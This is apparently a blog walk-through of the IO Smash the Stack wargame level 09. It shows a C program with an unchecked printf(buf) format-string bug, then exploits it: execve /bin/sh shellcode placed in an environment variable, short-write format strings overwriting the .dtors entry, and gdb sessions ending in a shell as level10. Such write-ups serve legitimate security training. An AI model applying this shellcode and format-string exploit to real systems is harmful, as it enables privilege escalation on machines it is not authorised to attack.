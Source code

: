 +++
title = "IO Smash the stack level 09"
date = "2016-02-13T23:01:00-02:00"
publishdate = "2016-02-13"
categories =["Security"]
tags = ["Wargames", "C"]
slug = "io-smashthestack-level-09"
project_url = "https://greyhat.dk/io-smashthestack-level-09"
type = "post"
description = "Walk-through"
image = "binary.png"
image_alt = "Binary pattern"
+++

## Level09

```sh
level9@io:/levels$ ls -latr level09*
-r-------- 1 level9  level9  182 Jan  9  2010 level09.c
-r-sr-x--- 1 level10 level9 6294 Jan  9  2010 level09
```

level9@io:/levels$ cat level09.c
```c
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {
	int  pad = 0xbabe;
	char buf[1024];
	strncpy(buf, argv[1], sizeof(buf) - 1);

	printf(buf);

	return 0;
}
```

A nice string format bug. Alright this should be a walk in the park using short writes when overwriting the .dtors. Lets go

```sh
ilevel9@io:/levels$ export EGG=$(python -c 'print "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80"')
level9@io:/levels$ /tmp/desdic1/getenv EGG /levels/level09
EGG will be at 0xbffffeca
level9@io:/levels$ gdb -q /levels/level09
Reading symbols from /levels/level09...done.
(gdb) quit
level9@io:/levels$ nm ./level09|grep __DTOR
080494d4 d __DTOR_END__
080494d0 d __DTOR_LIST__
level9@io:/levels$ gdb -q /levels/level09
Reading symbols from /levels/level09...done.
(gdb) p 0xbfff - 8
$1 = 49143
(gdb) p 0xfeca - 0xbfff
$2 = 16075
(gdb) r $(printf "\xd6\x94\x04\x08\xd4\x94\x04\x08")%49143x%4\$hn%16075x%5\$hn
Starting program: /levels/level09 $(printf "\xd6\x94\x04\x08\xd4\x94\x04\x08")%49143x%4\$hn%16075x%5\$hn
...
bffffe5b
...
Program received signal SIGSEGV, Segmentation fault.
0xbffffedc in ?? ()
```

Oki we did not get a shell .. Lets try with the new info we got. We know that it crashed because it pointed to 0xbffffedc which is 18 bytes past our EGG

```sh
(gdb) i reg
eax            0xffffffda	-38
ecx            0xbffffb84	-1073742972
edx            0xbffffb88	-1073742968
ebx            0x80495a8	134518184
esp            0xbffffb80	0xbffffb80
ebp            0xbffffb99	0xbffffb99
esi            0x0	0
edi            0xb7fff908	-1207961336
eip            0xbffffedc	0xbffffedc
eflags         0x10292	[ AF SF IF RF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) p 0xfedc - 0xfeca
$3 = 18
(gdb) !echo "16075 - 18"|bc
16057
(gdb) r $(printf "\xd6\x94\x04\x08\xd4\x94\x04\x08")%49143x%4\$hn%16057x%5\$hn
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /levels/level09 $(printf "\xd6\x94\x04\x08\xd4\x94\x04\x08")%49143x%4\$hn%16057x%5\$hn
...
bffffe5b
...
                                                                            process 2883 is executing new program: /bin/bash
sh-4.2$
```

And we got a shell but do to gdb we are still level9. Lets try the original without gdb

```sh
level9@io:/levels$ /levels/level09 $(printf "\xd6\x94\x04\x08\xd4\x94\x04\x08")%49143x%4\$hn%16075x%5\$hn
...
bffffe59
...
sh-4.2$ whoami
level10
```

Oki so what happend. Our EGG is located at 0xbffffeca. When using short writes we have to split our address into words (And decimal)

```sh
echo "ibase=16; BFFF"|bc
49151
echo "ibase=16; FECA"|bc
65226
echo "65226 - 49151"|bc
16075
```

First we convert 0xbfff into decimal (49151) and then 0xfeca (65226) and find the difference hence finding 16075. But before we can use 49151 we need to take account that we added 8 bytes to the stack (The 2 addresses for .dtor) hence getting 49143. So we write 0xbfff to 080494d6 and 0xfeca to 080494d4 pointing our destructor to our EGG.
